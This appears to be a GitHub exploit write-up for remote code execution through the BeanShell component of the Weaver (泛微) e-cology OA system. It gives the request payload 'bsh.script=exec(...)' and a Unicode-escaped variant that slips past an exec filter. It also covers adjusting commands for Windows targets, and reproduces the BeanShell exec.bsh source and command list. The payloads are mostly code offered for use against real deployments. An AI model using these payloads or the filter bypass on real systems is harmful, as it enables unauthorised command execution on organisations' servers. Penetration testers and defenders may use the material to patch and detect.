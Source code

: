 # 泛微e-cology OA Beanshell组件远程代码执行

![](./set.jpg)
## Windows
![](./whoami.jpg)
## Linux
![](./linux.jpg)
![](./linux2.png)

## Ps
```
检测目标系统os.name（因为目标系统是windows的话，执行set等命令，需要手动敲cmd.exe /c set）
使用Unicode绕过exec过滤，部分站点
```
## Payload
```
bsh.script=exec('whoami');

>>>>unicode bypass

bsh.script=\u0065\u0078\u0065\u0063("whoami");

```

## Useful BeanShell Commands

```
In the previous example we used a convenient "built-in" BeanShell command called print(), to display values. 

print() does pretty much the same thing as System.out.println() except that it insures that the output always goes to the command line. print() also displays some types of objects (such as arrays) more verbosely than Java would. 

Another related command is show(), which toggles on and off automatic display of the result of every line you type.
```
#### Here are a few other examples of BeanShell commands:
```
source(), run() - Read a bsh script into this interpreter, or run it in a new interpreter
frame() - Display a GUI component in a Frame or JFrame.
load(), save() - Load or save serializable objects to a file.
cd(), cat(), dir(), pwd(), etc. - Unix-like shell commands
exec() - Run a native application
javap() - Print the methods and fields of an object, similar to the output of the Java javap command.
setAccessibility() - Turn on unrestricted access to private and protected components.
```
## bsh-2.0b4.jar command
`/Users/ale/Desktop/bsh/weaver/WEB-INF/lib/bsh/commands`

```
.//object.bsh
.//rm.bsh
.//run.bsh
.//print.bsh
.//pwd.bsh
.//error.bsh
.//cat.bsh
.//setClassPath.bsh
.//setAccessibility.bsh
.//exec.bsh
.//setFont.bsh
.//dirname.bsh
.//exit.bsh
.//source.bsh
.//frame.bsh
.//cp.bsh
.//printBanner.bsh
.//browseClass.bsh
.//cd.bsh
.//which.bsh
.//setNameSpace.bsh
.//workspaceEditor.bsh
.//thinBorder.bsh
.//bind.bsh
.//bg.bsh
.//save.bsh
.//fontMenu.bsh
.//getSourceFileInfo.bsh
.//classBrowser.bsh
.//load.bsh
.//javap.bsh
.//addClassPath.bsh
.//server.bsh
.//desktop.bsh
.//importCommands.bsh
.//mv.bsh
.//setStrictJava.bsh
.//eval.bsh
.//dir.class
.//getBshPrompt.bsh
.//unset.bsh
.//show.bsh
.//getResource.bsh
.//reloadClasses.bsh
.//clear.bsh
.//getClass.bsh
.//makeWorkspace.bsh
.//importObject.bsh
.//sourceRelative.bsh
.//getClassPath.bsh
.//pathToFile.bsh
.//setNameCompletion.bsh
.//editor.bsh
.//extend.bsh
.//debug.bsh
```

## for Example : eval.bsh

```
a=5;
eval("b=a*2");
print(b);

>>>
10
```
![](./eval.png)


## exec.bsh
```
cat exec.bsh      

/**
	Start an external application using the Java Runtime exec() method.
	Display any output to the standard BeanShell output using print().
*/

bsh.help.exec = "usage: exec( String arg )";

exec( String arg )
{
	this.proc = Runtime.getRuntime().exec(arg);
	this.din = new DataInputStream( proc.getInputStream() );
	while( (line=din.readLine()) != null )
		print(line);
```
![](exec.png)

```
1. exec("whoami")

2. this.proc = Runtime.getRuntime().exec("whoami");	
   this.din = new DataInputStream( proc.getInputStream() );
   while( (line=din.readLine()) != null )
   print(line);

```
## 参考链接：

http://www.beanshell.org/manual/bshmanual.html#Executable_scripts_under_Unix

https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg



